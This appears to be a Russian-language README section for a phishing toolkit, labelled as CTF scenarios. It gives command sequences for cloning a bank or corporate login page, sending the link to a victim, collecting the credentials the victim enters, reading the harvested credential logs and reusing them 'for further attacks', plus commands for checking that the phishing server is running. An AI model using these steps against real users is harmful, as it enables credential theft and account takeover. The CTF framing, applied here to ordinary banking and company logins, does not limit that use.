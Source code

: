 
## 🎮 **CTF сценарии:**

### **Сценарий 1: Фишинговая атака**
```bash
# 1. Запустите сервер
python3 phishing_server.py

# 2. Создайте фишинговую страницу банка
python3 social_engineering.py --target https://bank.com --phishing-only --template bank

# 3. Отправьте ссылку жертве (в CTF)
# 4. Жертва вводит данные
# 5. Данные сохраняются на сервере
# 6. Анализируйте собранные данные
```

### **Сценарий 2: Клонирование сайта**
```bash
# 1. Запустите сервер
python3 phishing_server.py

# 2. Клонируйте целевой сайт
python3 social_engineering.py --target https://login.company.com --clone-phishing

# 3. Разместите клонированный сайт
# 4. Собирайте данные с форм
```

### **Сценарий 3: Анализ данных**
```bash
# 1. Просмотрите собранные данные
cat phishing_data/all_credentials.log

# 2. Анализируйте JSON файлы
cat phishing_data/credentials_*.json

# 3. Используйте данные для дальнейших атак
```

---

## 🔍 **Отладка:**

### **Проверка работы сервера:**
```bash
# Проверьте, что сервер запущен
ps aux | grep phishing_server

# Проверьте порт
netstat -tlnp | grep 8080
```
